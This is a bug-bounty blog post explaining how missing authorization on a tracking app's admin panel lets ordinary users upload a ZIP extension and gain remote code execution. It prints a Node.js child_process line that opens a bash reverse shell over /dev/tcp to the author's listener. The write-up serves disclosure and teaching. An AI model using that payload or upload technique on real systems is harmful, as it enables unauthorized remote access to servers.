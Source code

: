 ```yaml
---
layout: post
title:  "RCE on Application’s Tracking Admin Panel"
date:   2023-09-03 21:39:54 +0530
tags: bugbounty,rce
---
```


In this blog post, we’ll explore some intriguing scenarios where the add extension functionality in a particular subdomain can be exploited to enable a Remote Code Execution vulnerability. The application in question is a tracking system that can monitor study hours, walking distance, and, if using the Android version, application usage levels. By delving into the specifics of this potential vulnerability and its potential impact, we hope to provide valuable insights for both developers and security professionals.

![]({{ site.baseurl }}/assets/images/rce-1.png)

## Vulnerability in Tracking Application’s Admin Panel

A concerning vulnerability has been identified in the admin panel of the Tracking application. Specifically, when creating an extension, the application fails to implement proper authorization checks for all users. This means that regular users can upload extensions without restriction via the admin panel, potentially leading to remote code execution. Addressing this vulnerability by implementing proper authorization checks is critical to preventing unauthorized access and maintaining the security of the application. It highlights the importance of implementing robust access controls and security measures to protect against potential exploits and vulnerabilities.
Carrying Out the File Upload Attack

In order to successfully submit an extension upload, we must first create two required file types: a JavaScript file containing the extension’s code and a JSON file containing metadata like the extension’s name, version and description. By compiling these two files along with any other necessary files into a ZIP archive and uploading that, our extension is more likely to pass the initial review process due to being properly organized and containing all required files

Now, let’s write some javascript code that will send the reverse shell to our listening server

```js
require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/192.168.0.143/9999 0>&1"’) 
```

In the provided code snippet, we utilize the Node.js child process module. Node.js typically operates as a single-threaded, non-blocking system, which can struggle with increasing workloads. However, the child_process module solves this issue by allowing for the spawning of child processes. These child processes can communicate with each other using a built-in messaging system.

We make use of the exec() child process to execute system commands, specifically to establish a reverse TCP connection to our listener server. This allows remote access to the system and the potential exploitation of vulnerabilities. It is critical to note that such actions should only be performed with permission and in a controlled testing environment to avoid any negative impact on the system or its users.

To create an extension for the Tracking application, a metadata file is required. This file contains essential information about the extension, such as its UUID, name, and description. Here is a basic example that we can use:

```json
{
"name": "Test"
}
```

This metadata file is necessary for the proper functioning of the extension and must be included when uploading the extension to the application. Ensuring that all required files and information are included when creating and uploading extensions is critical to maintaining the security and integrity of the application.

It is important to note that the admin console of the Tracking application can be accessed by authenticated users through the subdirectory `/admin`. However, as there is no proper authentication mechanism in place for the admin panel, low-privileged users may also be able to access it. This highlights the significance of implementing appropriate security measures and access controls to prevent unauthorized access and maintain the security of the application.

![]({{ site.baseurl }}/assets/images/rce-2.png)

The Tracking application’s admin panel includes an option to upload extensions via the extension tab in the frontend. It is important to note that the upload functionality only accepts zip files and does not support any other file extensions. This restriction is intended to prevent potential security vulnerabilities that could arise from the upload of unsupported file types.

![]({{ site.baseurl }}/assets/images/rce-3.png)

Let’s get down to business! We’re going to start a listening server on our local machine, upload a malicious zip file to the target application through the upload extension functionality, and voila! We’ve got ourselves a reverse shell on our netcat listener.

![]({{ site.baseurl }}/assets/images/rce-4.png)

As a result, you can see we got a reverse shell from daemon server of the application
